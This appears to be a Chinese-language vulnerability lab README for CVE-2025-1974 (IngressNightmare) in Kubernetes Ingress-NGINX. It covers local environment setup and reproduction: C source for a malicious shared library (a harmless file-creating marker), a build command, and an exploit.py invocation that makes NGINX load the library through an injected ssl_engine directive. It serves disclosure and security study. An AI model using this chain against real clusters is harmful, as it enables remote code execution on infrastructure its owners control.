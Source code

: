 # Kubernetes Ingress-NGINX未授权远程代码执行漏洞(CVE-2025-1974)

Ingress-NGINX是Kubernetes的一个入口控制器，使用NGINX作为反向代理和负载均衡器。

CVE-2025-1974（又称IngressNightmare）漏洞源于Ingress-NGINX Admission Controller的关键缺陷。准入控制器是Kubernetes的内部安全机制，用于在部署传入的入口对象之前对其进行验证。然而，该控制器无需身份验证即可通过网络访问，攻击者可以利用这一特性，向准入控制器发送恶意的`AdmissionReview`请求，注入未授权的配置到Ingress资源中。

指的注意的是，这个漏洞需要配合其他漏洞组合成利用链才能执行任意命令。

已知的可利用链包括：

- CVE-2025-1974 + CVE-2025-24514: 通过`auth-url`注释注入RCE  
- CVE-2025-1974 + CVE-2025-1097: 通过`auth-tls-match-cn`注释注入RCE  
- CVE-2025-1974 + CVE-2025-1098: 通过镜像UID滥用注入RCE

参考链接:

- <https://www.wiz.io/blog/ingress-nginx-kubernetes-vulnerabilities>
- <https://kubernetes.io/blog/2025/03/24/ingress-nginx-cve-2025-1974/>
- <https://github.com/yoshino-s/CVE-2025-1974>
- <https://github.com/Clifford-prog/IngressNightmare-PoC>
- <https://github.com/kubernetes/ingress-nginx/blob/8c1ecd7655bd052a26e64d3361dede3096cd80c6/internal/ingress/controller/controller.go#L425>

## 漏洞环境

执行如下命令启动Kubernetes环境，这里使用轻量的K3s作为集群方案，借助Docker Compose启动：

```
docker compose up -d
```

该脚本会等待Kubernetes API就绪以及ingress-nginx控制器启动。环境启动后，Ingress-NGINX会同时监听30080和30443(TLS)端口，同时，Ingress-NGINX Admission Controller还会反向代理到30443端口，例如`https://localhost:30443/networking/v1/ingresses`。

## 漏洞复现

首先需要编译一个与目标架构相匹配的动态链接库（.so文件）：

```c
#include<stdio.h>
#include<stdlib.h>

__attribute__((constructor)) static void reverse_shell(void)
{
    system("touch /tmp/hacked");
}
```

使用以下命令将上述源代码编译为动态链接库：

```
gcc -shared -fPIC -o shell.so shell.c
```

完成编译后，使用[exploit.py](exploit.py)来复现漏洞：

```
python exploit.py -a https://localhost:30443/networking/v1/ingresses -i http://localhost:30080/fake/addr -s shell.so
```

该利用通过伪造`AdmissionReview`请求，注入`ssl_engine`指令，迫使NGINX加载恶意的动态共享对象。利用成功后，你可以在ingress-nginx容器的`/tmp`目录下看到创建的`hacked`文件。

![](1.png)
